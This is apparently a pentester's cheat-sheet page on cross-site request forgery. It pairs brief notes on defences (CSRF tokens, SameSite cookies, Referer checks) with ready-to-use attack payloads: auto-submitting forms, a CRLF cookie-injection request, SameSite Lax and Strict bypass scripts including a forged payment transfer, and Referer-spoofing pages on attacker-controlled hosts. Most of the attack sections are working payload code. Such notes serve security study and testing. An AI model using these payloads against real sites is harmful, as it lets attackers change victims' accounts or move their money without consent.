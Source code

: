 # CSRF

## <mark style="color:purple;">**Exploit**</mark>

**With POST**

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**With GET**

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## <mark style="color:purple;">Defences</mark>

<details>

<summary>CSRF tokens</summary>

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

</details>

<details>

<summary>SameSite cookies</summary>

Controls whether or not a cookie is sent with cross-site requests

If the website doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default.

* `Strict` Means that the browser sends the cookie only for same-site requests

-   `Lax` Means that browser sends the cookie in cross-site requests, if:

    * The request uses the `GET` method.
    * The request resulted from a top-level navigation by the user, such as clicking on a link.

    The cookie is not sent on cross-site requests, such as on requests to load images or frames.
- `None` Means that the browser sends the cookie with both cross-site and same-site requests. The `Secure` attribute must also be set when setting this value, like so `SameSite=None; Secure`

</details>

<details>

<summary>Referer-based validation</summary>

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

</details>

## <mark style="color:purple;">CSRF tokens bypass</mark>

* Switch from `POST` to the `GET` method
* Remove the parameter containing the token
* Invent a token in the required format (the app doesn't keep valid server-side tokens).
* Log in to the application with your account, obtain a valid token, and then feed that token to the victim user in their CSRF attack  (some apps don't validate if the token belongs to the same session as the requesting user).
*   Are there two token: one in a cookie and one in hidden input? (this can also have the same value)

    * Some apps do tie the CSRF token to a cookie, but not to the session cookie.
    * Can you set a cookie? E.g. Header injection with `CRLF`.(`%0d%0a`)
    * ```
      /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
      ```
    * Log in to the application with your account -> obtain a valid token and associated cookie.
    * Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

    ```html
    <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    ```

## <mark style="color:purple;">SameSite cookies bypass</mark>

### <mark style="color:purple;">Lax bypass</mark>

* Using GET requests (bypass lax)

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

* GET method override (bypass lax)
  * Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  * ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```

### <mark style="color:purple;">Strict bypass</mark>

Bypass via client-side redirect. Consider a page `https://vulnerable-website.com/post/confirm?postId=10` that load this script.

```javascript
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{% hint style="info" %}
**Note**: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{% endhint %}

## <mark style="color:purple;">Referer-based validation bypass</mark>

* Some apps validate the Referer header if present, but skip if omitted

```html
<meta name="referrer" content="never">
```

* Validation of Referer can be circumvented
  * ```
    http://vulnerable-website.com.attacker-website.com/csrf-attack
    http://attacker-website.com/csrf-attack?vulnerable-website.com
    http://attacker-website.com/vulnerable-website.com
    ```
  * To sed referer you need to add `Referrer-Policy: unsafe-url`. One way to set it in html: `<meta name="referrer" content="unsafe-url"/>`

{% hint style="success" %}
**Tip**: Instead of use `http://attacker-website.com/vulnerable-website.com`, you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/vulnerable-website.com')</script>`

<pre class="language-html"><code class="lang-html">&#x3C;!-- http://attacker-website.com/ -->
<strong>&#x3C;html>
</strong>  &#x3C;meta name="referrer" content="unsafe-url"/>
  &#x3C;body>
    &#x3C;form action="https://vulnerable-website.com/change-email" method="POST">
      &#x3C;input type="hidden" name="email" value="test@test.com" />
      &#x3C;input type="submit" value="Submit request" />
    &#x3C;/form>
    &#x3C;script>
      history.pushState('', '', '/vulnerable-website.com');
      document.forms[0].submit();
    &#x3C;/script>
  &#x3C;/body>
&#x3C;/html>
</code></pre>
{% endhint %}

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy. \[[🔗](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)]

